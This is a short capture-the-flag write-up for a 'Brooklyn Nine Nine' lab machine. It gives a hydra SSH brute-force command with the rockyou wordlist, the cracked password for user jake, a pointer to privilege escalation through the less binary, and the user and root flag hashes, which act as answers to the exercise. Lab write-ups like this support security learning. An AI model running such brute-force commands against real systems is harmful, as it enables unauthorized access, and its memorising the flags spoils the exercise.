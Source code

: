 # Brooklyn Nine Nine 

machine ip : `10.10.214.25`

bruteforcing jake's ssh
```
hydra -l jake -P /usr/share/wordlists/rockyou.txt 10.10.214.25 ssh -t 4 
```
> [22][ssh] host: 10.10.214.25   login: jake   password: 987654321

the less binary is vulnerable 
see GTFObin

| Flag | Value |
|------|-------|
| User | ee11cbb19052e40b07aac0ca060c23ee |
| Root | 63a9f0ea7bb98050796b649e85481845 |
